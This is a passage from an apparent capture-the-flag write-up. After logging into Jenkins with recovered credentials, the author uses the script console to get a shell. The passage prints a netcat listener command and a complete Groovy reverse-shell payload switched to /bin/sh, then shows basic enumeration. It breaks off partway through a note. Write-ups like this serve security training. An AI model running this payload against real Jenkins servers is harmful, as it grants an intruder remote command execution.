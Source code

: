 SS15
<img width="1317" height="690" alt="Screenshot 2025-09-08 192014" src="https://github.com/user-attachments/assets/79d19e10-d90a-40d4-bf1f-70ddfe1cf6f3" />

and we can use them to login

SS16
<img width="1892" height="792" alt="Screenshot 2025-09-08 192040" src="https://github.com/user-attachments/assets/1911aa9f-d029-416c-9901-d96e5a4b2367" />

Again I had to reference a writeup to understand the next step is to setup a reverse shell using a scripting console in the manage jenkins tab

SS17
<img width="1842" height="678" alt="Screenshot 2025-09-08 192201" src="https://github.com/user-attachments/assets/e1a6ffee-536c-44ad-ac67-3c8cefda104b" />

Let's setup another listener

```bash
nc -nvlp 6789
```

Lets grab a groovy reverse shell:

```bash
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76

and we change the string cmd to:

```bash
String cmd="/bin/sh";
```

SS18
<img width="1335" height="536" alt="Screenshot 2025-09-08 192608" src="https://github.com/user-attachments/assets/5e46a64a-79b2-4986-ae88-ff0c6d82fa69" />

We can use id and see we are jenkins

```bash
ls -la
```

root directory

```bash
cd opt
```

we see a note.txt we can cat it out and we get:

Aubreanna,
